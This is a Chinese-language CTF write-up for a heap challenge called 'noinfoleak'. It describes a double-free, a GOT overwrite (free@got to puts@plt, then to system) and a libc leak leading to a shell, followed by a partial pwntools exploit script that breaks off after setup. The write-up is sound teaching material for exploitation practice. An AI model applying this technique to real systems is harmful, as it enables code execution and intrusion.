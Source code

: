 ![5cab42c4531b4](https://i.loli.net/2019/04/08/5cab42c4531b4.png)

del:

![5cab42d6ef46b](https://i.loli.net/2019/04/08/5cab42d6ef46b.png)

没有能leaklibc的功能，自己造一个，把free@got覆写成puts@plt。

通过2free，将堆块建到ptr上某个位置，恰好ptr有存size的地方，可以用来伪造chunksize。

改写ptr中chunk1指针为free@got,chunk2指针为atoi@got，edit chunk1内容为puts@plt

free(chunk2)泄露libc，改写chunk1为system，添加chunk3，内容为/bin/sh\x00，free(chunk3) getshell。

本来想的是用2free把堆块直接建到free@got上方，再通过unsorted bin的fd和bk泄露libc，结果没成功。  







```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年04月07日 星期日 13时55分42秒
# File Name: exp.py
# Description:
"""

from pwn import *

io = process('./noinfoleak')
#io = remote('ctf2.linkedbyx.com',10776)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./noinfoleak')
context.log_level = 'debug'
context.terminal = ['terminator', '-x' , 'sh' ,'-c']



def debug():
    gdb.attach(io)
    io.interactive()
def addnote(size,content):
    io.sendafter('>','1')
    io.sendafter('>',str(size))
    io.sendafter('>',content)
def delnote(idx):
    io.sendafter('>','2')
    io.sendafter('>',str(idx))
def editnote(idx,content):
    io.sendafter('>','3')
    io.sendafter('>',str(idx))
    io.sendafter('>',content)
'''
pwndbg> x/64gx 0x601002-8
0x600ffa:    0x0e28000000000000    0xd168000000000060
0x60100a:    0xde1000007fa47538    0x04f000007fa47517
0x60101a:    0xd29000007fa474e2    0x06b600007fa474e0
0x60102a:    0x06c6000000000040    0xe970000000000040
0x60103a:    0x820000007fa474f0    0x325000007fa474e6
0x60104a:    0xc74000007fa474e9    0x013000007fa474db'''

ptr = 0x6010A0

putplt = elf.plt['puts']
```